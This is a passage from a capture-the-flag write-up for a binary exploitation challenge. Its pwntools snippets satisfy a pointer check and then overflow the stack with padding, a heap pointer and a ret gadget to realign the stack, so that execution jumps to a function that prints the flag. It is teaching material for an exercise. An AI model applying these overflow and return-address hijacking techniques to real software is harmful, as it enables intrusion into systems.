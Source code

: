 ```
#Looking into deployObjective, we need to unmangle the pointer

p.recvuntil(b'>>> \n')
p.sendline(bytes('⬇ ⬆ ⬇ ⬆', 'utf-8'))
p.recvuntil(b"today?\n")
p.send(p64(0x1337+0x8))
p.recvuntil(b"credentials:\n")
p.send(p64(superearthflag))
```

Now both the heap and gs frame are satisfied, lets try an overflow. Remember to replace the address to the heap with itself at rbp-8.

```
p.recvuntil(b'>>> \n')
p.sendline(b'Quit\00')

p.recvline()
p.recvline()

chain =  b'N'*120                   # Enter 'quit'
chain += p64(heap)                  # Validation expects a pointer to the heap
chain += b'N'*8
chain += p64(superearthflag_addr)              # Overwrite main's return pointer
```

But if we try to run this, the program closes as it tries printing the flag. Stepping through with gdb shows a movaps error (the stack is misaligned).
We can fix this by using a ret gadget. Remember that only the return address (rbp+8) is validated. So instead of overwriting our three locations with 'superearthflag' we overwrite with the ret gadget's address. Then we can chain into superearthflag().

```
p.recvuntil(b'>>> \n')
p.sendline(b'Quit\00')

p.recvline()
p.recvline()

chain =  b'N'*120                   # Enter 'quit'
chain += p64(heap)                  # Validation expects a pointer to the heap
chain += b'N'*8
chain += p64(ret)                   # We got a movaps, so we have to set the return pointer to a ret gadget
chain += p64(superearthflag_addr)              # Overwrite main's return pointer

p.sendline(chain)
```

And this will get you your flag. Have fun!


## Script
